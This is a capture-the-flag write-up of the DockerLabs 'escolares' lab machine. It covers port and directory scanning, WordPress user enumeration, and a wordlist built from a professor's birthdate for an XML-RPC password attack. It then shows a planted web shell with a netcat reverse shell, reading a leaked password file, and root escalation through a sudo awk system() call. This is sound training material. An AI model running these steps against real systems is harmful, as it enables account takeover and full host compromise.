


# escolares

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| escolares | Luisillo_o | easy | dockerlabs |

**Summary:** The intrusion began with full surface mapping of a small web and SSH footprint, followed by direct source review of the public site that exposed an internal clue pointing to a faculty page and a WordPress instance. User enumeration through WordPress telemetry identified a valid account name, and contextual profiling data from the faculty page allowed a targeted password generation workflow that succeeded through XML RPC authentication. With administrative panel access, a web shell was introduced into the WordPress administration path and used to obtain remote command execution as www data. Internal host enumeration then exposed an insecure secret file in the home directory root that disclosed the local account credential, enabling lateral movement to luisillo. Final escalation was achieved through a misconfigured sudoers rule granting passwordless awk execution, which allowed command execution as root and complete host compromise.

---

## Recon

**1. Deploy the target and identify the network endpoint.**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[~/dockerlabs/escolares]
└─$ sudo bash auto_deploy.sh escolares.tar
[sudo] password for ouba:

                            ##        .
                      ## ## ##       ==
                   ## ## ## ##      ===
               /""""""""""""""""\___/ ===
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/
                 \    \        __/
                  \____\______/

  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]


Estamos desplegando la máquina vulnerable, espere un momento.
La red dockernetwork ya existe. Eliminándola y recreándola...

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Run full TCP and service reconnaissance.**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/escolares]
└─$ ip=172.17.0.2 && url=http://$ip

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/escolares]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-14 16:49 WIB
Nmap scan report for 172.17.0.2
Host is up (0.000046s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 42:24:24:f5:66:68:a4:ad:8e:24:0d:70:4a:a5:e3:4f (ECDSA)
|_  256 29:42:2e:b6:85:ae:fb:09:89:8d:b9:c1:dc:4d:fc:1e (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: P\xC3\xA1gina Escolar Universitaria
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.41 seconds
```

**3. Review the web root response and source clues.**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/escolares]
└─$ curl -i $url
HTTP/1.1 200 OK
Date: Sat, 14 Mar 2026 09:50:17 GMT
Server: Apache/2.4.58 (Ubuntu)
Last-Modified: Sun, 09 Jun 2024 07:38:25 GMT
ETag: "1a52-61a701e2a1e40"
Accept-Ranges: bytes
Content-Length: 6738
Vary: Accept-Encoding
Content-Type: text/html

<!DOCTYPE html>
<html lang="es">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Página Escolar Universitaria</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 0;
            padding: 0;
        }

        nav {
            background-color: #333;
            overflow: hidden;
        }

        nav a {
            float: right;
            display: block;
            color: white;
            text-align: center;
            padding: 14px 20px;
            text-decoration: none;
        }

        nav a:hover {
            background-color: #ddd;
            color: black;
        }

        .container {
            margin: 20px;
        }

        .jumbotron {
            background-color: #f2f2f279;
            padding: 50px;
            text-align: center;
        }

        .noticias {
            margin-top: 50px;
            display: flex;
            flex-wrap: wrap;
            justify-content: center;
            text-align: center;
        }

        .noticia {
            margin: 10px;
            border: 1px solid #ccc;
            padding: 5px;
            width: calc(40% - 10px);
            box-sizing: border-box;
        }

        .footer {
            background-color: #333;
            color: white;
            text-align: center;
            padding: 20px 0;
            position: fixed;
            width: 100%;
            bottom: 0;
        }

        .gallery {
            display: flex;
            flex-wrap: wrap;
            justify-content: center;
            margin-top: 50px;
        }

        .gallery-item {
            margin: 20px;
            text-align: center;
        }

        .gallery-img {
            margin-bottom: 10px;
            max-width: 300px;
            max-height: 200px;
        }

        .gallery-title {
            font-weight: bold;
        }

        .gallery-description {
            color: #666;
        }

        .btn-inscribirme {
            background-color: #4CAF50;
            color: white;
            padding: 14px 20px;
            margin: 20px;
            border: none;
            cursor: pointer;
            border-radius: 5px;
            text-align: center;
            text-decoration: none;
            display: inline-block;
            font-size: 16px;
        }

        .btn-inscribirme:hover {
            background-color: #45a049;
        }

        h1 {
            padding-bottom: 50px;
        }

        .loremp {
            padding: 40px;
            text-align: justify;
        }

        .alumnadoimg {
            padding: 0 50pxpx;
        }

        .btn {
            display: inline-block;
            background-color: green;
            color: #fff;
            border: none;
            padding: 10px 20px;
            border-radius: 5px;
            text-decoration: none;
            margin-top: 20px;
        }
    </style>
</head>

<body>
    <nav>
        <a href="contacto.html">Contacto</a>
        <a href="carreras.html">Carreras</a>
        <a href="escolares.html">Escolares</a>
        <a href="profesores.html">Profesores</a>
        <a href="alumnado.html">Alumnado</a>
        <a href="index.html">Inicio</a>
        <!-- INFORMACION PERSONAL ACADEMICO -->
        <!-- /profesores.html -->
    </nav>
    <div class="container">
        <div class="jumbotron">
            <h1>Universidad de Ciberseguridad</h1>
            <p class="loremp">Lorem ipsum, dolor sit amet consectetur adipisicing elit. Eveniet, tempore error quibusdam perferendis harum facilis consequatur nulla voluptatibus soluta tempora ducimus temporibus ipsa voluptate consectetur necessitatibus rerum, sint itaque animi sapiente, quam sequi nihil sit fugit. Incidunt nostrum ullam vitae accusamus velit sint iusto numquam dolorem quae ipsa? Placeat necessitatibus adipisci voluptatum, rerum et harum aut sequi tenetur, odit sunt eligendi! Accusamus esse quibusdam fugit explicabo quasi qui enim odio deserunt maiores dicta. Cumque natus corporis asperiores iure est adipisci tempora aut assumenda accusantium numquam distinctio iste eligendi sapiente, ducimus quam cum accusamus aliquid commodi molestias laboriosam. Soluta, laborum vero?</p>
            <a href="#" class="btn">Inscribirse</a>
        </div>
        <center>
            <h1>NOTICIAS</h1>
        </center>
        <div class="noticias">
            <div class="noticia">
                <h2>Alumnos Inmersos en el Proceso de Aprendizaje</h2>
                
                <p class="loremp">El compromiso y la dedicación de nuestros alumnos mientras participan activamente en el proceso de aprendizaje. Su entusiasmo y determinación son ejemplos inspiradores para toda nuestra comunidad educativa.</p>
            </div>
            <div class="noticia">
                <h2>Celebración del Logro Académico</h2>
                
                <p class="loremp">Festejo y alegría en nuestra institución! Los estudiantes lanzan birretes al aire para conmemorar su éxito académico. Esta emocionante ceremonia marca el fin de una etapa y el comienzo de nuevas oportunidades para nuestros graduados.</p>
            </div>
            <div class="noticia">
                <h2>Bienvenida a los Nuevos Miembros de la Comunidad Universitaria</h2>
                
                <p class="loremp">Es un placer dar la bienvenida a los nuevos estudiantes que se unen a nuestra comunidad universitaria. Estamos emocionados de acompañarlos en su viaje educativo</p>
            </div>
            <div class="noticia">
                <h2>Espacios Versátiles para la Colaboración y el Aprendizaje</h2>
                
                <p class="loremp">Nuestras instalaciones de sala de usos múltiples son el escenario perfecto para la colaboración, la creatividad y el aprendizaje interactivo</p>
            </div>
            <div class="noticia">
                <h2>Orgullo Institucional Representado en Nuestro Escudo</h2>
                
                <p class="loremp">El escudo de nuestra institución es un símbolo de nuestro compromiso con la excelencia académica y la formación integral de nuestros estudiantes. </p>
            </div>
        </div>
    </div>
    <div class="footer">
        <p>© 2024 Universidad Ingenierias. Todos los derechos reservados.</p>
    </div>
</body>

</html>
```

**4. Pull the faculty page and extract identity material useful for password profiling.**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/escolares]
└─$ curl -i $url/profesores.html
HTTP/1.1 200 OK
Date: Sat, 14 Mar 2026 09:50:55 GMT
Server: Apache/2.4.58 (Ubuntu)
Last-Modified: Sun, 09 Jun 2024 07:39:17 GMT
ETag: "e9e-61a7021439340"
Accept-Ranges: bytes
Content-Length: 3742
Vary: Accept-Encoding
Content-Type: text/html

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Lista de Profesores</title>
    <style>
        /* Estilos CSS */
        body {
            font-family: Arial, sans-serif;
            margin: 0;
            padding: 0;
        }
        nav {
            background-color: #333;
            overflow: hidden;
        }
        nav a {
            float: right;
            display: block;
            color: white;
            text-align: center;
            padding: 14px 20px;
            text-decoration: none;
        }
        nav a:hover {
            background-color: #ddd;
            color: black;
        }
        .container {
            margin: 20px;
        }
        .footer {
            background-color: #333;
            color: white;
            text-align: center;
            padding: 20px 0;
            position: fixed;
            width: 100%;
            bottom: 0;
        }
        .profesor {
            margin: 20px;
            padding: 20px;
            border: 1px solid #ccc;
            border-radius: 5px;
            background-color: #f9f9f9;
        }
        .profesor img {
            max-width: 100px;
            border-radius: 50%;
        }
    </style>
</head>
<body>
    <nav>
        <a href="contacto.html">Contacto</a>
        <a href="carreras.html">Carreras</a>
        <a href="escolares.html">Escolares</a>
        <a href="alumnado.html">Alumnado</a>
        <a href="index.html">Inicio</a>
    </nav>
    <div class="container">

        <center>
        <h1>Lista de Profesores</h1>
        </center>
        <div class="profesor">
            
            <h2>Juan Estrada</h2>
            <p>Matrícula: 19120001</p>
            <p>Especialidad: Ingeniería Civil</p>
            <p>Fecha de Nacimiento: 12/05/1975</p>
            <p>Email: juan@example.com</p>
        </div>
        <div class="profesor">
            
            <h2>Fernando</h2>
            <p>Matrícula: 19120002</p>
            <p>Especialidad: Ingeniería Química</p>
            <p>Fecha de Nacimiento: 25/08/1980</p>
            <p>Email: fernando@example.com</p>
        </div>
        <div class="profesor">
            
            <h2>Luis ;) </h2>
            <p>Matrícula: 19131337</p>
            <p>Especialidad: Ingeniería en Sistemas</p>
            <p>Fecha de Nacimiento: 09/10/1981</p>
            <p>Email: luisillo@example.com</p>
        </div>
        <div class="profesor">
            
            <h2>Alejandro</h2>
            <p>Matrícula: 19120003</p>
            <p>Especialidad: Ingeniería Mecánica</p>
            <p>Fecha de Nacimiento: 03/04/1978</p>
            <p>Email: Alejandro@example.com</p>
        </div>
        <div class="profesor">
            
            <h2>Marcelo</h2>
            <p>Matrícula: 19120004</p>
            <p>Especialidad: Ingeniería Eléctrica</p>
            <p>Fecha de Nacimiento: 17/11/1985</p>
            <p>Email: Marcelo@example.com</p>
        </div>
        <div class="profesor">
            
            <h2>Mario</h2>
            <p>Matrícula: 19120005</p>
            <p>Especialidad: Ingeniería Industrial</p>
            <p>Fecha de Nacimiento: 09/07/1973</p>
            <p>Email: Mario@example.com</p>
        </div>
    </div>
    <div class="footer">
        <p>© 2024 Universidad de Ingenierias. Todos los derechos reservados.</p>
    </div>
</body>
</html>
```

**5. Enumerate content paths to discover administration surfaces.**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/escolares]
└─$ gobuster dir -u $url -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 275]
/.hta                 (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/assets               (Status: 301) [Size: 309] [--> http://172.17.0.2/assets/]
/index.html           (Status: 200) [Size: 6738]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/info.php             (Status: 200) [Size: 87168]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://172.17.0.2/phpmyadmin/]
/server-status        (Status: 403) [Size: 275]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================
```

## Initial Access

**1. Confirm WordPress exposure and map host resolution for proper scanning.**

```javascript
the source code of 172.17.0.2/wordpress/
<!DOCTYPE html>
<html lang="es">
<head>
	<meta charset="UTF-8" />
	<meta name="viewport" content="width=device-width, initial-scale=1" />
<meta name='robots' content='max-image-preview:large' />
<title>escolares</title>
<link rel='dns-prefetch' href='//escolares.dl' />
<link rel="alternate" type="application/rss+xml" title="escolares &raquo; Feed" href="http://escolares.dl/wordpress/index.php/feed/" />
<link rel="alternate" type="application/rss+xml" title="escolares &raquo; Feed de los comentarios" href="http://escolares.dl/wordpress/index.php/comments/feed/" />
<script>
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/escolares]
└─$ echo "172.17.0.2 escolares.dl" | sudo tee -a /etc/hosts
[sudo] password for ouba:
172.17.0.2 escolares.dl
```

**2. Enumerate WordPress users and security posture with aggressive checks.**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/escolares]
└─$ wpscan --url http://escolares.dl/wordpress -e u,vp,vt --plugins-detection aggressive
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://escolares.dl/wordpress/ [172.17.0.2]
[+] Started: Sat Mar 14 17:01:31 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.58 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://escolares.dl/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://escolares.dl/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://escolares.dl/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://escolares.dl/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

Fingerprinting the version - Time: 00:00:03 <======================================================> (702 / 702) 100.00% Time: 00:00:03
[i] The WordPress version could not be detected.

[+] WordPress theme in use: twentytwentyfour
 | Location: http://escolares.dl/wordpress/wp-content/themes/twentytwentyfour/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://escolares.dl/wordpress/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.4
 | [!] Directory listing is enabled
 | Style URL: http://escolares.dl/wordpress/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://escolares.dl/wordpress/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.1'

[+] Enumerating Vulnerable Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:01:22 <=====================================================> (7343 / 7343) 100.00% Time: 00:01:22
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:07 <=======================================================> (652 / 652) 100.00% Time: 00:00:07
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=========================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] luisillo
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://escolares.dl/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Sitemap (Aggressive Detection)
 |   - http://escolares.dl/wordpress/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Mar 14 17:03:10 2026
[+] Requests Done: 8718
[+] Cached Requests: 617
[+] Data Sent: 2.483 MB
[+] Data Received: 2.957 MB
[+] Memory used: 336.715 MB
[+] Elapsed time: 00:01:38
```

**3. Build a targeted wordlist from disclosed identity attributes and run authenticated password attack.**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/escolares]
└─$ cupp -i
 ___________
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Luis
> Surname:
> Nickname: luisillo
> Birthdate (DDMMYYYY): 09101981


> Partners) name:
> Partners) nickname:
> Partners) birthdate (DDMMYYYY):


> Child's name:
> Child's nickname:
> Child's birthdate (DDMMYYYY):


> Pet's name:
> Company name:


> Do you want to add some key words about the victim? Y/[N]: n
> Do you want to add special chars at the end of words? Y/[N]: n
> Do you want to add some random numbers at the end of words? Y/[N]:n
> Leet mode? (i.e. leet = 1337) Y/[N]: y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to luis.txt, counting 3924 words.
> Hyperspeed Print? (Y/n) : n
[+] Now load your pistolero with luis.txt and shoot! Good luck!
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/escolares]
└─$ wpscan --url http://escolares.dl/wordpress -U luisillo -P luis.txt

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://escolares.dl/wordpress/ [172.17.0.2]
[+] Started: Sat Mar 14 19:09:20 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.58 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://escolares.dl/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://escolares.dl/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://escolares.dl/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://escolares.dl/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

Fingerprinting the version - Time: 00:00:06 <======================================================> (702 / 702) 100.00% Time: 00:00:06
[i] The WordPress version could not be detected.

[+] WordPress theme in use: twentytwentyfour
 | Location: http://escolares.dl/wordpress/wp-content/themes/twentytwentyfour/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://escolares.dl/wordpress/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.4
 | [!] Directory listing is enabled
 | Style URL: http://escolares.dl/wordpress/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://escolares.dl/wordpress/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.1'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <========================================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - luisillo / Luis1981
Trying luisillo / Luis1981 Time: 00:00:17 <===============                                        > (1600 / 5524) 28.96%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: luisillo, Password: Luis1981

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Mar 14 19:09:51 2026
[+] Requests Done: 3045
[+] Cached Requests: 8
[+] Data Sent: 1.259 MB
[+] Data Received: 31.975 MB
[+] Memory used: 338.434 MB
[+] Elapsed time: 00:00:31
```

**4. Authenticate in the WordPress panel, add `shell.php` under `wp-admin`, and establish remote shell access.**

```text
login as luisillo with that pass.

and go to wp file manager under wp-admin add new file shell.php
```



```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/escolares]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

```text
trigger it with open up this link:
http://escolares.dl/wordpress/wp-admin/shell.php
```

```bash
connect to [172.21.44.133] from (UNKNOWN) [172.17.0.2] 41626
bash: cannot set terminal process group (33): Inappropriate ioctl for device
bash: no job control in this shell
www-data@757bd9d6c9a2:/var/www/html/wordpress/wp-admin$ cd /
cd /
www-data@757bd9d6c9a2:/$ which python3
which python3
/usr/bin/python3
www-data@757bd9d6c9a2:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@757bd9d6c9a2:/$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/escolares]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@757bd9d6c9a2:/$ export SHELL=/bin/bash
www-data@757bd9d6c9a2:/$ export TERM=xterm-256color
www-data@757bd9d6c9a2:/$ stty rows 77 cols 158
```

## PrivEsc

**1. Enumerate local users, inspect accessible files, and move laterally to luisillo.**

```bash
www-data@757bd9d6c9a2:/$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
luisillo:x:1001:1001:,,,:/home/luisillo:/bin/bash
```

```bash
www-data@757bd9d6c9a2:/home$ ls -la
total 20
drwxr-xr-x 1 root     root     4096 Jun  8  2024 .
drwxr-xr-x 1 root     root     4096 Mar 14 00:49 ..
drwxr-x--- 1 luisillo luisillo 4096 Jun  8  2024 luisillo
-rwxrwxrwx 1 root     root       23 Jun  8  2024 secret.txt
drwxr-x--- 1 ubuntu   ubuntu   4096 Jun  8  2024 ubuntu
www-data@757bd9d6c9a2:/home$ cat secret.txt
luisillopasswordsecret
www-data@757bd9d6c9a2:/home$ su - luisillo
Password:
luisillo@757bd9d6c9a2:~$ id;whoami;hostname;pwd
uid=1001(luisillo) gid=1001(luisillo) groups=1001(luisillo),100(users)
luisillo
757bd9d6c9a2
/home/luisillo
luisillo@757bd9d6c9a2:~$ ls -la
total 28
drwxr-x--- 1 luisillo luisillo 4096 Jun  8  2024 .
drwxr-xr-x 1 root     root     4096 Jun  8  2024 ..
-rw------- 1 luisillo luisillo  233 Jun  8  2024 .bash_history
-rw-r--r-- 1 luisillo luisillo  220 Jun  7  2024 .bash_logout
-rw-r--r-- 1 luisillo luisillo 3771 Jun  7  2024 .bashrc
drwxrwxr-x 3 luisillo luisillo 4096 Jun  7  2024 .local
-rw-r--r-- 1 luisillo luisillo  807 Jun  7  2024 .profile
luisillo@757bd9d6c9a2:~$ which sudo
/usr/bin/sudo
luisillo@757bd9d6c9a2:~$ sudo -l
Matching Defaults entries for luisillo on 757bd9d6c9a2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 757bd9d6c9a2:
    (ALL) NOPASSWD: /usr/bin/awk
```

**2. Use the allowed awk path for root shell execution through GTFOBins technique.**



```bash
luisillo@757bd9d6c9a2:~$ sudo /usr/bin/awk 'BEGIN {system("sudo -i")}'
root@757bd9d6c9a2:~# id;whoami;hostname;pwd;ls -la
uid=0(root) gid=0(root) groups=0(root)
root
757bd9d6c9a2
/root
total 32
drwx------ 1 root root 4096 Jun  8  2024 .
drwxr-xr-x 1 root root 4096 Mar 14 00:49 ..
-rw------- 1 root root  206 Jun  8  2024 .bash_history
-rw-r--r-- 1 root root 3106 Apr 22  2024 .bashrc
drwxr-xr-x 1 root root 4096 Jun  7  2024 .local
-rw------- 1 root root  631 Jun  8  2024 .mysql_history
-rw-r--r-- 1 root root  161 Apr 22  2024 .profile
drwx------ 2 root root 4096 Jun  5  2024 .ssh
```

---

## Attack Chain Summary
1. **Reconnaissance**: Network and service fingerprinting identified SSH and Apache endpoints, then web source inspection exposed a faculty route and a WordPress path with enough metadata to pivot into focused application enumeration.
